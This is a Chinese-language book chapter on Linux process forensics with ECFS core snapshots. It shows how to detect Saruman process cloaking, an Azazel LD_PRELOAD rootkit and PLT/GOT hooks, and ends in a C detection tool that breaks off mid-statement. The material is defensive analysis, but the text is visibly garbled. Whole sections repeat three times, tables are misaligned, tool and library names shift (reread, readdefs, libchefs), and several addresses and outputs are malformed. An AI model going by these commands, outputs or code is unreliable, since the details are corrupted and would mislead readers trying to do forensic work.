$ readelf -n core
<snippet>
0x00007ff166fe0000 0x00007ff16719b000  /lib/x86_64-linux-gnu/libc-2.19.so
</snippet>
```

`fopen@plt` 指向 `0x7ff1673a8609`。这在之前显示的 `libc-2.19.so` 文本段范围（即 `0x7ff166fe0000` 到 `0x7ff16719b000`）之外。使用 GDB 检查核心文件与使用 GDB 检查存活进程非常相似，我们可以使用所示的方法来定位环境变量并检查是否设置了 `LD_PRELOAD`。

以下是在核心文件中定位环境变量的示例：

```
(gdb) x/4096s $rsp

scroll down a few pages ...
0x7fffb25388db: "/host"
0x7fffb25388e2: "LD_PRELOAD=./libelinux.so"
0x7fffb25389fd: "SHELL=/bin/bash"
0x7fffb253890d: "TERM=xterm"
0x7fffb2538918: "OLDPWD=/home/ryan"
0x7fffb253892a: "USER=root"
```

### 总结

ECFS 的核心在于让程序的运行时分析变得简单。整个过程封装在一个文件中，其组织方式使得通过有序且高效的方法定位对于检测异常和感染至关重要的数据访问成为可能。这主要通过解析段头来访问有用数据，例如符号表、动态链接数据和取证相关的结构。

这是用于激活 ECFS 核心处理器的命令：

```bash
echo '|/opt/ecfs/bin/ecfs_handler -t -e -np -p -o /opt/ecfs/cores/${%e.%p}' > /proc/sys/kernel/core_pattern
```

注意设置了 `-t` 选项。这对于取证分析非常重要，不应该被关闭。此选项告诉 ECFS 捕获任何可执行文件或共享库映射的文本段。在传统的核心文件中，文本映像被截断为 4k。在本章后面的部分，我们还将检查 `-h` 选项（启发式），它可以被设置为启用扩展启发式算法，以检测共享库注入。

`ecfs_handler` 二进制文件将根据进程是 64 位还是 32 位调用 `ecfs32` 或 `ecfs64`。我们写入的行头的管道符号 (`|`) 会进入内核，将核心文件管道到 ECFS 核心处理器的标准输入中。ECFS 核心处理器会将传统的核心文件转换为高度自定义的核心文件。每当进程崩溃或接收到诸如 `SIGSEGV` 或 `SIGRT` 的信号时，ECFS 核心处理器就会介入，并使用自己的一套程序对 ECFS 风格的核心转储创建进行插桩。

这是一个捕获 sshd 核心快照的示例：

```bash
$ kill -SIGRT "pidof sshd"
$ ls -lh /opt/ecfs/cores
-rwxr-xr-x 1 root root 82463 Jul 24 13:36 sshd
```

将 ECFS 作为核心处理器是非常棒的，非常适合日常使用，因为核心文件与传统的核心文件后兼容，并可以与 GDB 等调试器配合使用。然而，用户可能希望在不杀死进程的情况下捕获核心快照。这就是 ECFS 快照工具大显身手的地方。

## 在不杀死进程的情况下快照

让我们考虑这样一个场景：有一个可疑进程正在运行。它可疑是因为它消耗了大量的 CPU 并打开了网络接口，尽管已知它是无害的。在这种情况下，让进程运行可能是理想的，这样不会引起潜在攻击者的注意，但仍然具有产生核心文件的能力。在这种情况下，应该使用 `ecfs_snapshot` 工具。

## ECFS – 扩展核心文件快照

`ecfs_snapshot` 工具最终使用 `ptrace` 系统调用，这意味着两点：

- 快照进程可能需要更长的时间
- 对于使用反调试技术防止 `ptrace` 挂载的进程，它可能无效

当其中任何一个问题成为障碍时，你可能需要考虑使用 ECFS 核心处理器来完成工作，在这种情况下你必须杀死进程。在大多数情况下，`ecfs_snapshot` 工具可以工作。这里有一个使用快照捕获主机的示例：

```bash
$ ecfs_snapshot -p pidof host -o host_snapshot
```

这会快照进程并创建一个 ECFS 快照 `host_snapshot`。在接下来的章节中，我们将演示 ECFS 的一些实际用例，并使用各种工具查看 ECFS 文件。

## libecfs – 用于解析 ELF 文件的库

ECFS 文件格式非常容易用传统的 ELF 工具（如 `readelf`）解析，但为了构建自定义解析工具，我建议你使用 `libecfs` 库。该库专门为便于解析 ECFS 文件而设计。在本章稍后的部分，当我们查看设计检测感染进程的恶意软件分析工具时，将进行更详细介绍。


`libecfs` 也用于 `readelf` 工具的持续开发，该工具用于解析 ECFS 文件，与广知的 `readelf` 工具非常相似。注意 `libecfs` 包含在 GitHub 仓库的 ECFS 包中。

## readelf

`readelf` 工具将在本章的其余部分演示不同的 ECFS 特性。以下是来自 `readelf -h` 的工具摘要：

```
Usage: readelf [-AShelga] <core>
-a 打印所有 (等同于 -Shelga)
-s 打印符号表信息
-l 打印共享库名称
-p 打印 ELF 程序头
-S 打印 ELF 节头
-h 打印 ELF 头部
-g 打印 PLTG 信息
-A 打印辅助向量 (Auxiliary vector)
-P 打印个性化信息 (personality info)
-e 打印 elf 特有信息（辅助向量、进程状态、套字、管道、文件描述符等）
```

- [查看某个节的原始数据]
  - `R <core> <section>`

- [将一个 ELF 节复制到文件中（类似于 objcopy）]
  - `O <core> .section outfile`

- [从 .procfs.tgz 节提取并解压 /proc/$pid 到目录]
  - `X <core> <output_dir>`

示例：

```bash
readelf -e <core>
readelf -Ag <core>
readelf -R <core> .stack
readelf -R <core> .bss
readelf -ER <core> .heap
readelf -0 <core> .vdso_elf.so
readelf -X <core> procfs_dir
```

## 使用 ECFS 检查感染进程

在用真实示例展示 ECFS 的有效性之前，了解一些从黑客角度来看我们将使用的感染方法背景将会有帮助。对于黑客来说，在受损系统的工作流中加入反取证技术通常是非常有用的，这样他们的程序（特别是那些作为后门的程序）就可以对未外行的人保持隐藏。

其中一种技术是执行进程伪装（process cloaking）。这是在现有的进程内部运行程序的行为，理想情况下是在已知无害但持久的进程内部，例如 `ftpd` 或 `sshd`。Saruman 反取证执行 (http://www.bitlackkeys.org/#saruman) 允许我们伪装进程。

## 捕获和分析 ECFS

`ecfs_handler` 二进制文件将根据进程是 64 位还是 32 位调用 `ecfs32` 或 `ecfs64`。我们写入的行头的管道符号 (`|`) 会进入内核，将核心文件管道到 ECFS 核心处理器的标准输入中。ECFS 核心处理器会将传统的核心文件转换为高度自定义的核心文件。每当进程崩溃或接收到诸如 `SIGSEGV` 或 `SIGRT` 的信号时，ECFS 核心处理器就会介入，并使用自己的一套程序对 ECFS 风格的核心转储创建进行插桩。

这是一个捕获 `sshd` 核心快照的示例：

```bash
$ kill -SIGRT "pidof sshd"
$ ls -lh /opt/ecfs/cores
-rwxr-xr-x 1 root root 82463 Jul 24 13:36 sshd
```

将 ECFS 作为核心处理器是非常棒的，非常适合日常使用，因为核心文件与传统的核心文件后兼容，并可以与 `GDB` 等调试器配合使用。然而，用户可能希望在不杀死进程的情况下捕获核心快照。这就是 ECFS 快照工具大显身手的地方。

## 在不杀死进程的情况下快照

让我们考虑这样一个场景：有一个可疑进程正在运行。它可疑是因为它消耗了大量的 CPU 并打开了网络接口，尽管已知它是无害的。在这种情况下，让进程运行可能是理想的，这样不会引起潜在攻击者的注意，但仍然具有产生核心文件的能力。在这种情况下，应该使用 `ecfs_snapshot` 工具。

## ECFS – 扩展核心文件快照

`ecfs_snapshot` 工具最终使用 `ptrace` 系统调用，这意味着两点：

- 快照进程可能需要更长的时间
- 对于使用反调试技术防止 `ptrace` 挂载的进程，它可能无效

当其中任何一个问题成为障碍时，你可能需要考虑使用 ECFS 核心处理器来完成工作，在这种情况下你必须杀死进程。在大多数情况下，`ecfs_snapshot` 工具可以工作。这里有一个使用快照捕获主机的示例：

```bash
$ ecfs_snapshot -p pidof host -o host_snapshot
```

这会快照进程并创建一个 ECFS 快照 `host_snapshot`。在接下来的章节中，我们将演示 ECFS 的一些实际用例，并使用各种工具查看 ECFS 文件。

## libecfs – 用于解析 ELF 文件的库

ECFS 文件格式非常容易用传统的 ELF 工具（如 `readelf`）解析，但为了构建自定义解析工具，我建议你使用 `libecfs` 库。该库专门为便于解析 ECFS 文件而设计。在本章稍后的部分，当我们设计检测感染进程的恶意软件分析工具时，将进行更详细介绍。

## 使用 ECFS 检查感染进程

在用真实示例展示 ECFS 的有效性之前，了解一些从黑客角度来看我们将使用的感染方法背景将会有帮助。对于黑客来说，在受损系统的工作流中加入反取证技术通常是非常有用的，这样他们的程序（特别是那些作为后门的程序）就可以对未外行的人保持隐藏。

其中一种技术是执行进程伪装（process cloaking）。这是在现有的进程内部运行程序的行为，理想情况下是在已知无害但持久的进程内部，例如 `ftpd` 或 `sshd`。Saruman 反取证执行 (http://www.bitlackkeys.org/#saruman) 允许我们伪装进程。

## 捕获和分析 ECFS

`ecfs_handler` 二进制文件将根据进程是 64 位还是 32 位调用 `ecfs32` 或 `ecfs64`。我们写入的行头的管道符号 (`|`) 会进入内核，将核心文件管道到 ECFS 核心处理器的标准输入中。ECFS 核心处理器会将传统的核心文件转换为高度自定义的核心文件。每当进程崩溃或接收到诸如 `SIGSEGV` 或 `SIGRT` 的信号时，ECFS 核心处理器就会介入，并使用自己的一套程序对 ECFS 风格的核心转储创建进行插桩。

这是一个捕获 `sshd` 核心快照的示例：

```bash
$ kill -SIGRT "pidof sshd"
$ ls -lh /opt/ecfs/cores
-rwxr-xr-x 1 root root 82463 Jul 24 13:36 sshd
```

将 ECFS 作为核心处理器是非常棒的，非常适合日常使用，因为核心文件与传统的核心文件后兼容，并可以与 `GDB` 等调试器配合使用。然而，用户可能希望在不杀死进程的情况下捕获核心快照。这就是 ECFS 快照工具大显身手的地方。

## 感染进程

`ecfs_handler` 核心处理器会将传统的核心文件转换为高度自定义的核心文件。每当进程崩溃或接收到诸如 `SIGSEGV` 或 `SIGRT` 的信号时，ECFS 核心处理器就会介入，并使用自己的一套程序对 ECFS 风格的核心转储创建进行插桩。

### 符号表

`readelf` 命令允许我们查看符号表。注意符号表存在于动态符号和 `.symtab` 之间。ECFS 能够通过访问动态段并找到 `DT_SYTAB` 来重构符号表。`.symtab` 符号表稍微复杂一些但非常有价值。ECFS 使用了一种特殊方法...

## .dynym 包含 6 个项：

| Num | Value | Type | Bind | Name |
|---|---|---|---|---|
| 0 | 00007fba31e00 | 0 | NOTYPE | |
| 1 | 00007fba31d30 | 0 | FUNC | DEFAULT |
| 2 | 00007fba318206 | 0 | FUNC | DEFAULT |
| 3 | 00007fba31ffd0 | 0 | FUNC | DEFAULT |
| 4 | 0000000000000000 | 0 | NOTYPE | WEAK | | __start__ |
| 5 | 00007fba318c40 | 0 | | | | pen |

## .symtab 包含 6 个项：

| Num | Value | Size | Type | Bind | Vis | Ndx | Name |
|---|---|---|---|---|---|---|---|
| 0 | 0000000000040470 | 96 | FUNC | GLOBAL | | 10 | sub_00770 |
| 1 | 00000000000404d0 | 42 | FUNC | GLOBAL | | 10 | sub_004d0 |
| 2 | 000000000004005bd | 50 | FUNC | GLOBAL | | 10 | sub_005bd |
| 3 | 000000000004005ef | 69 | FUNC | GLOBAL | | 10 | sub_005ef |
| 4 | 0000000000040640 | 101 | FUNC | GLOBAL | | 10 | sub_00640 |
| 5 | 00000000000406b0 | 2 | FUNC | GLOBAL | | 10 | sub_006b0 |

## ECFS – 扩展核心文件快照技术

在函数被混淆等情况下，`IDA` 等工具将无法识别二进制文件或核心文件中定义的每个函数，但 ECFS 技术将成功做到。这是 ECFS 对逆向工程领域产生的重大影响之一——一种近乎无敌的方法，用于定位每个函数的大小并生成符号表。在 `host.16186` 文件中，符号表被完全重建。这是因为它可以帮助检测是否使用了 `PLT/GOT` 钩来重定向共享库函数，如果是，我们可以识别出被劫持函数的实际名称。

## 节头分析

现在，让我们来看 `host.16186` 快照的节头分析。

我的 `rread` 版本经过了微调，以支持 `SHT_INJECTED` 和 `SHT_PRELOADED`。如果没有对 `rread` 进行这些修改，它只会显示与这些定义相关的数值值。查看 `include/ecfs.h` 中的函数，并将它们添加到你喜欢的 `rread` 源码中：

```bash
$ reread -S host.16186
```

共有 46 个节头，从偏移量 `0x255464` 开始：

节头：

| Nr | Name | Type | Address | Offset | Size | EntSize | Flags | Link | Info | Align |
|---|---|---|---|---|---|---|---|---|---|---|
| [ 0 ] | NULL | 0000000000000000 | 0000000000000000 | 0 | 0 | 0 | 00000000 | 0000000000000000 | 0000000000000000 | |
| [ 1 ] | .interp | PROGBITS | 0000000000040238 | 0 | 0 | 1 | 00002238 | 0000000000000001c | 0000000000000000 | 0 |
| [ 2 ] | .note | NOTE | 0000000000000000 | 0 | 0 | 4 | 00005f0 | 0000000000000013c | 0000000000000000 | | |
| [ 3 ] | .hash | GNU_HASH | 0000000000040298 | 0 | 0 | 4 | 00002298 | 0000000000000001c | 0000000000000000 | | |
| [ 4 ] | .dynym | DYNSYM | 00000000000402b8 | 5 | 0 | 8 | 000022b8 | 000000000000000090 | 00000000000000018 | | |
| [ 5 ] | .dynstr | STRTAB | 0000000000040348 | 0 | 0 | 1 | 00002348 | 00000000000000049 | 00000000000000018 | | |
| [ 6 ] | .rela.dyn | RELA | 00000000000403c0 | 4 | 0 | 8 | 000023c0 | 00000000000000018 | 00000000000000018 | | |
| [ 7 ] | .rela.plt | RELA | 00000000000403d8 | 0 | 0 | 8 | 000023d8 | 0000000000000078 | 0000000000000018 | A | 4 | 8 |
| [ 8 ] | .init | PROGBITS | 0000000000400450 | 0 | 0 | 8 | 0002450 | 0000000000000001a | 0000000000000000 | AX | 0 | 8 |
| [ 9 ] | .plt | PROGBITS | 0000000000400470 | 0 | 0 | 16 | 0002470 | 00000000000000060 | 0000000000000010 | A | 0 | 16 |
| [ 10 ] | .TEXT | PROGBITS | 0000000000400000 | 0 | 0 | 16 | 00002000 | 0000000000000010 | A | 0 | |
| [ 11 ] | .text | PROGBITS | 000000000040004d | 0 | 0 | 16 | 000024d0 | 000000000000002e | 0000000000000000 | A | 0 |
| [ 12 ] | .fini | PROGBITS | 00000000004006b4 | 0 | 0 | 16 | 000026b4 | 0000000000000000 | A | 0 | |
| [ 13 ] | .eh_frame | PROGBITS | 00000000004006e8 | 0 | 0 | 4 | 000026e8 | 000000000000003c | A | 0 | |
| [ 14 ] | .eh_frame | PROGBITS | 0000000000400724 | 0 | 0 | 8 | 00002728 | 0000000000000014 | A | 0 | |
| [ 15 ] | .ctors | PROGBITS | 0000000000600e10 | 0 | 0 | 8 | 00003e10 | 0000000000000008 | A | 0 | |
| [ 16 ] | .dtors | PROGBITS | 0000000000600e18 | 0 | 0 | 8 | 00003e18 | 0000000000000008 | A | 0 | |
| [ 17 ] | .dynamic | DYNAMIC | 0000000000600e28 | 0 | 0 | 8 | 00003e28 | 0000000000000010 | WA | 0 | |
| [ 18 ] | .got.plt | PROGBITS | 0000000000601010 | 0 | 0 | 8 | 00004000 | 0000000000000048 | WA | 0 | |
| [ 19 ] | .DATA | PROGBITS | 0000000000600000 | 0 | 0 | 8 | 00003000 | 0000000000000100 | WA | 0 | |
| [ 20 ] | .data | PROGBITS | 0000000000601040 | 0 | 0 | 8 | 00004040 | 0000000000000010 | WA | 0 | |
| [ 21 ] | .bss | PROGBITS | 0000000000601050 | 0 | 0 | 8 | 00004050 | 0000000000000000 | WA | 0 | |


## 第 8 章

### ECFS – 扩展核心文件快照技术

#### 提取寄生代码

感兴趣的节 23；它被标记为带有注入标记的可疑 ELF 对象：

```
[23] .elf.dyn.0 INJECTED 00007fba37f1b000 00038000 0000000000000000 AX 0 8
```

当 ECFS 启发式检测发现一个 ELF 对象可疑且无法在其映射库列表中找到该特定对象时，它按以下格式命名节：

`.elf.<type>.count`

类型可以是以下四种之一：

- `ET_NONE`
- `ET_EXEC`
- `ET_DYN`
- `ET_REL`

在我们的示例中，显然是 `ET_DYN`，表示为 `dyn`。`count` 只是已发现注入对象的索引。在这种情况下，索引为 0，因为它是在该特定进程中发现的第一个也是唯一的注入对象。类型 `INJECTED` 表示该节包含被确定为可疑或通过非手段注入的 ELF 对象。在特定情况下，该进程感染了 Saruman（前文描述），它注入了位置无关执行文件（PIE）。PIE 执行文件的类型为 `ET_DYN`，与共享库类似，这也就是为什么 ECFS 将其标记为此类。

我们在 ECFS 核心文件中发现了一个与寄生代码相关的节，实际上它是被注入的 PIE 执行文件。下一步是调查代码本身。可以通过以下方式之一完成：使用 `objdump` 工具或像 IDA 这样的高级反汇编器导航到名为 `.elf.dyn` 的节，或者先使用 `readdefs` 工具从 ECFS 核心文件中提取寄生代码：

```
$ reread -o host.16186 .elf.dyn.0 parasite_code.exe
```

- reread output for host.16186
- 可执行路径 (`.apath`): /home/ryan/saruman
- 命令行: ./

[+] 正在复制数据 `.elf.dyn.0` 到文件 `parasite_code.exe`

得益于 ECFS，我们从进程镜像中提取了类似的寄生代码。识别该特定的恶意软件并将其提取出来是一项极其麻烦的任务。现在可以作为单独文件检查 `parasite_code.exe`，并在 IDA 中打开它：

```
root@elfmaster:~/etc/cores# reread -1 parasite.exe
readdefs: Error: Unable to read 40 bytes of section headers
readdefs: Error: Unable to read 780 bytes of section headers
```

Elf 文件类型为 DYN（共享对象）

入口点 0db0

共有 9 个程序头，从偏移 64 开始

| 程序头 | 类型 | 偏移 | 虚拟地址 | 物理地址 | 标志 | 文件大小 | 内存大小 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| PHDR | | 0x0000000000000040 | 0x0000000000000040 | 0x0000000000000040 | | | |

```
DYNAMIC     0x0000000000001e8 0x000000000000201 0x0000000000021e8
               0x0000000000001d0 0x0000000000001d0 RW       8
NOTE        0x0000000000000254 0x0000000000000254 0x0000000000000254
               0x0000000000000044 0x0000000000000044 R        4
GNU_EH_FRAME 0x00000000000017e0 0x00000000000017e0 0x00000000000017e0
               0x000000000000001c 0x000000000000001c R        4
GNU_STACK  0x0000000000000000 0x0000000000000000 0x0000000000000000
               0x0000000000000000 0x0000000000000000 RW      10
GNU_RELRO   0x00000000000001f0 0x00000000000001f0 0x00000000000201f0
               0x0000000000000210 0x0000000000000210 R        1
readelf: Error: Unable to read 01 bytes of dynamic section
```

注意 `readelf` 在前面的输出中报错了。这是因为我们提取的寄生程序没有它自己的节头部。在将来，`readelf` 工具将能够根据整个 EFS 核心文件为映射的 ELF 对象重建一个最小的节头部表。

#### 分析 Azaz 用户态 rootkit

如第 7 章“进程取证”中所提到的，Azaz 用户态 rootkit 是一种通过 `LD_PRELOAD` 感染进程的用户态 rootkit，其中共享库被链接到进程中并劫持了各种 `libc` 函数。在第 7 章“进程取证”中，我们使用 GDB 和 `readelf` 来检查进程是否存在这种特定的 rootkit 感染。以下是来自可执行文件 `host2` 的受 Azaz 感染的 EFS 快照。

#### 重建的 host2 进程符号表

现在是经过重建的 `host2` 符号表：

```
$ readelf -s host2.7254
```

| Num. | Value | Size Type | Bind | Vis | Ndx Name |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 0 | 0x0000000000000000 | | NOTYPE | LOCAL | DEFAULT | UND |
| 1 | 0x0007f0a0d0d0070 | | FUNC | GLOBAL | DEFAULT | UND | unlink |
| 2 | 0x0007f0a0d06fe30 | | FUNC | GLOBAL | DEFAULT | UND | puts |
| 3 | 0x0007f0a0d0bcef0 | | FUNC | GLOBAL | DEFAULT | UND | opendir |
| 4 | 0x0007f0a0d0d21dd0 | | FUNC | GLOBAL | DEFAULT | UND | __libc_start_main |

main

5: 000000000000000000 0 NOTYPE WEAK DEFAULT UND __gmon_start__

6: 000000000000000000 0 FUNC GLOBAL DEFAULT UND fopen

符号表 `.symtab` 包含 5 个条目：

| Num | Value | Size Type | Bind | Vis | Ndx Name |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 0 | 00000000000004004b0 | 112 FUNC | GLOBAL | DEFAULT | 10 sub_4004b0 |
| 1 | 0000000000000400520 | 42 FUNC | GLOBAL | DEFAULT | 10 sub_400520 |
| 2 | 000000000000040060d | 68 FUNC | GLOBAL | DEFAULT | 10 sub_40060d |
| 3 | 0000000000000400660 | 101 FUNC | GLOBAL | DEFAULT | 10 sub_400660 |
| 4 | 0000000000000406d0 | 2 FUNC | GLOBAL | DEFAULT | 10 sub_4006d0 |

从前面的符号表可以看出 `host2` 是一个简单的程序，只有几个共享库调用（在 `.dynym` 表所示）：`unlink`、`opendir` 和 `fopen`。

#### host2 的节头部

让我们看看 `host2` 的节头部：

```
$ readelf -S 65 headers, starting at 0x27e:
```

Section Headers:

| [Nr] | Name | Type | Address | Offset | Flags | Align |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 0 | NULL | | 0x0000000000000000 | 0x0000000000000000 | 0 | 0 |
| 1 | .interp | PROGBITS | 0x0000000000004000 | 0x0000000000000238 | 0x238 | A | 1 |
| 2 | .note | NOTE | 0x0000000000004000 | 0x0000000000000000 | 0x900 | A | 0 |
| 3 | .hash | GNU_HASH | 0x0000000000004000 | 0x0000000000004298 | 0x298 | A | 0 |
| 4 | .dynym | DSYM | 0x0000000000004000 | 0x00000000000002b8 | 0xbb | A | 5 |
| 5 | .dynstr | STRTAB | 0x0000000000004000 | 0x0000000000000360 | 0x360 | A | 1 |
| 6 | .rela.dyn | RELA | 0x0000000000004000 | 0x00000000000003e0 | 0x360 | A | 4 |
| 7 | .rela.plt | RELA | 0x0000000000004000 | 0x00000000000003f8 | 0x3f8 | A | 4 |
| 8 | .init | PROGBITS | 0x0000000000004000 | 0x0000000000000488 | 0x488 | AX | 0 |
| 9 | .plt | PROGBITS | 0x0000000000004000 | 0x00000000000004b0 | 0x4b0 | AX | 0 |
| 10 | .TEXT | PROGBITS | 0x0000000000004000 | 0x0000000000000000 | 0x2000 | AX | 0 |
| 11 | .text | PROGBITS | 0x0000000000004000 | 0x0000000000000520 | 0x2520 | | 0 |
| 12 | .fini | PROGBITS | 0x0000000000004000 | 0x00000000000006d4 | 0x26d4 | AX | 0 |
| 13 | .eh_frame_hdr | PROGBITS | 0x0000000000004000 | 0x0000000000000708 | 0x2708 | AX | 0 |
| 14 | .eh_frame | PROGBITS | 0x0000000000004000 | 0x000000000000073c | 0x2740 | AX | 0 |
| 15 | .ctors | PROGBITS | 0x0000000000004000 | 0x0000000000000e10 | 0xe10 | A | 0 |
| 16 | .dtors | PROGBITS | 0x0000000000004000 | 0x0000000000000e18 | 0xe18 | A | 0 |
| 17 | .dynamic | DYNAMIC | 0x0000000000004000 | 0x0000000000000e28 | 0xe28 | WA | 0 |


# ECFS – 扩展核心文件快照技术

## ELF 段信息

| 索引 | 名称 | 类型 | 地址 | 偏移 | 大小 | 标志 | 对齐 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 18 | `.got.plt` | PROGBITS | 0x0000000000004000 | 0x0000000000001000 | 0x1000 | WA | 0 |
| 19 | `.DATA` | PROGBITS | 0x0000000000004000 | 0x0000000000003000 | 0x3000 | WA | 0 |
| 20 | `.data` | PROGBITS | 0x0000000000004000 | 0x0000000000001048 | 0x1048 | WA | 0 |
| 21 | `.bss` | PROGBITS | 0x0000000000004000 | 0x0000000000001058 | 0x1058 | WA | 0 |
| 22 | `.heap` | PROGBITS | 0x0000000000004000 | 0x0000000000002100 | 0x2100 | WA | 0 |
| 23 | `libaudit.so.1.0` | SHLIB | 0x0000000000100000 | 0x2600 | A | 0 |
| 24 | `libaudit.so.1.0` | SHLIB | 0x0000000000101900 | 0x3f00 | A | 0 |
| 25 | `libaudit.so.1.0` | SHLIB | 0x0000000000101800 | 0x3f000 | A | 0 |
| 26 | `libaudit.so.1.0` | SHLIB | 0x0000000000101900 | 0x40000 | A | 0 |
| 27 | `libpam.so.0.83.1` | SHLIB | 0x0000000003400000 | 0x41000 | A | 0 |
| 28 | `libpam.so.0.83.1` | SHLIB | 0x000000000340d000 | 0x4e000 | A | 0 |
| 29 | `libpam.so.0.83.1` | SHLIB | 0x000000000360c000 | 0x4e000 | A | 0 |
| 30 | `libpam.so.0.83.1` | SHLIB | 0x000000000360d000 | 0x4f000 | A | 0 |
| 31 | `libutil-2.19.so` | SHLIB | 0x000000000cfb9000 | 0x50000 | A | 0 |
| 32 | `libutil-2.19.so` | SHLIB | 0x000000000cfb8000 | 0x52000 | A | 0 |
| 33 | `libutil-2.19.so` | SHLIB | 0x000000000cffa000 | 0x52000 | A | 0 |
| 34 | `libutil-2.19.so` | SHLIB | 0x000000000cfdb000 | 0x53000 | A | 0 |
| 35 | `libld-2.19.so` | SHLIB | 0x000000000cffc000 | 0x54000 | A | 0 |
| 36 | `libld-2.19.so` | SHLIB | 0x000000000cfff000 | 0x57000 | A | 0 |

## ECFS 节头部信息

| 索引 | 名称 | 类型 | 地址 | 大小 |
| :--- | :--- | :--- | :--- | :--- |
| [60] | `.vdso` | PROGBITS | 00007ffdb918f000 | 00279000 |
| | | | 0000000000000200 | 0000000000000000 WA 0 8 |
| [61] | `.vsyscall` | PROGBITS | fffffffffffff6000 | 0027b000 |
| | | | 00000000000001000 | 0000000000000000 WA 0 8 |
| [62] | `.symtab` | SYMTAB | 0000000000000000 | 0027f5e6 |
| | | | 0000000000000078 | 00000000000000018 63 0 4 |
| [63] | `.strtab` | STRTAB | 0000000000000000 | 0027f5ee |
| | | | 00000000000000037 | 0000000000000000 0 0 1 |
| [64] | `.shstrtab` | STRTAB | 0000000000000000 | 0027f22e |
| | | | 00000000000000348 | 0000000000000000 0 0 1 |

列出的 ELF 段都是非常可疑的，因为它们被标记为 `PRELOAD` 段，这表明它们是通过 `LD_PRELOAD` 环境变量加载的共享库的映射：

| 索引 | 名称 | 类型 | 地址 | 大小 |
| :--- | :--- | :--- | :--- | :--- |
| [43] | `azasel.so.text` | PRELOAD | 00007f0a0d3c5000 | 0021f000 |
| | | | 0000000000000080 | 0000000000000000 A 0 0 8 |
| [44] | `azasel.so.undef` | PRELOAD | 00007f0a0d3cd3000 | 00227000 |
| | | | 00000000000001f0 | 0000000000000000 A 0 0 8 |
| [45] | `azasel.so.relro` | PRELOAD | 00007f0a0d5cc000 | 00227000 |
| | | | 0000000000000100 | 0000000000000000 A 0 0 8 |
| [46] | `azasel.so.data` | PRELOAD | 00007f0a0d5c0000 | 00228000 |
| | | | 0000000000000100 | 0000000000000000 A 0 0 8 |

各种用过的 rootkit（如 Azasel）使用 `LD_PRELOAD` 作为它们的注入手段。下一步是查看 PLT/GOT（全局偏移量表）并检查它是否包含指向相应边界函数的指针。

你可能还从之前的章节中记得，GOT 包含一个指针值表，这些值应该指向以下每一项：

- 对应 PLT 条目中的 PLT 存根（回想第 2 章《ELF 二进制格式》中的延迟链接概念）
- 如果特定的 GOT 条目已经通过链接器的某种方式（延迟链接或严格链接）解析，那么它将指向由可执行文件 `.rela.plt` 段中相应的重定位条目所指定的共享库函数。

## 验证 PLT/GOT ECFS

手动系统地验证 PLT/GOT 的完整性是非常枯燥的。幸运的是，使用 ECFS 这一点有一个非常简单的方法。如果你喜欢编写自己的工具，那么你应该使用专门为此目的设计的 `libchefs` 函数：

```
ssize_t get_pltgot_info(ecfs_elf_t *desc, pltgot_info_t **pginfo)
```

该函数分配了一个结构体数组，每个元素对应一个 PLT/GOT。

C 结构体 `pltgot_info_t` 具有以下格式：

```c
typedef struct pltgot_info_ {
    unsigned long got_site; // GOT 条目本身的地址
    unsigned long got_entry_va; // 在 GOT 条目中的指针值
    unsigned long plt_entry_va; // 预期的 PLT 地址
    unsigned long shl_entry_va; // 预期的共享库地址
} pltgot_info_t;
```

该函数的示例可以在 `ecfs/libchefs/main/detect_plthooks` 中找到。这是一个检测共享库注入和 PLT 钩子的简单工具，在本章后面会演示。`readelf` 工具在传递 `-g` 标志时演示了 `get_pltgot_info()` 函数的使用。

## PLT/GOT 的 readelf 输出

- host2 的 readelf 输出
- 可执行文件路径：`/home/user/git/host2`
- 命令行：`./host2`
- 打印 PLT/GOT 特性 (`pltgot_info_t`):

| getsite | gotvalue | getshlib | pltval | 符号 |
| :--- | :--- | :--- | :--- | :--- |
| 0x061018 | 0x7fa0dc81 | 0x7fa00d70 | 0x4004c6 | |
| 0x061020 | 0x7fa00d06f | 0x7fa00dfe3 | 0x4004d6 | `puts` |
| 0x061028 | 0x7fa0d3c87 | 0x7fa00d0b0 | 0x4004e6 | `opendir` |
| 0x061030 | 0x7fa00d21dd | 0x7fa00d210 | 0x4004f6 | `_start` |

## 扩展核心文件快照技术

之前的输出很容易解析。值应该匹配 `gotlib` 或 `pltval`。然而，我们可以看到地址为 `0x7f00adcc1` 的第一个条目与预期的共享库函数或 PLT 值不匹配。从之前的输出可以看出，没有被篡改的函数只有 `puts` 和 `_start`。为了进一步了解检测过程，让我们查看自动验证 PLT/GOT 工具的代码。该工具名为 `detect_plthooks`，用 C 语言编写。它使用 `libchefs` API 来加载和解析 ECFS 快照。

注意下面的代码只有 50 行源代码，这非常了不起。如果不使用 ECFS，大约需要 3000 行 C 代码来准确分析共享库注入和 PLT 钩子，我知道这一点是因为我做过，而且使用 ECFS 是最好的方法。

以下是使用 `detect_plthooks.cc` 的代码示例：

```c
#include "../include/libfs.h"

int main(int argc, char **argv)
{
    ecfs_elf_t *desc;
    ecfs_sym_t *dsyms;
    char *progname;
    int i;
    char *libname;
    long evil_addr = 0;

    if (argc < 2) {
        printf("Usage: %s <ecfs_file>", argv[0]);
        exit(0);
    }

    /*
     * 加载 ECFS 文件并创建描述符
     */
    desc = load_ecfs_file(argv[1]);
    /*
     * 获取原始程序名
     */
    progname = get_exe_path(desc);

    printf("正在对 '%s' 进行分析，对应可执行文件: %s\n", argv[1], progname);

    /*
     * 寻找任何标记为 INJECTED 或 PRELOAD 的段，
     * 这表示共享库注入或 ELF 对象注入。
     */
    for (i = 0; i < desc->shdr->e_shnum; i++) {
        if (desc->shdr[i].sh_type == SHT_INJECTED) {
            libname = strdup(desc->shstrtab[i].sh_name);
            printf("! 发现神秘注入的 ELF (动态 ELF): %s - 基础: %lx\n", libname, desc->shdr[i].sh_addr);
        } else if (desc->shdr[i].sh_type == SHT_PRELOADED) {
            libname = strdup(desc->shstrtab[i].sh_name);
            printf("! 发现预加载的共享库 (LD_PRELOAD): %s - 基础: %lx\n", libname, desc->shdr[i].sh_addr);
        }
    }

    /*
     * 加载并验证 PLT/GOT，确保每个
     * GOT 条目指向其正确的位置，
     * 位于 PLT 或正确的共享库函数。
     */
    pltgot_info_t *pltgot;
    int gotcount = get_pltgot_info(desc, &pltgot);
    for (i = 0; i < gotcount; i++) {
        if (pltgot[i].got_entry_va != pltgot[i].shl_entry_va &&
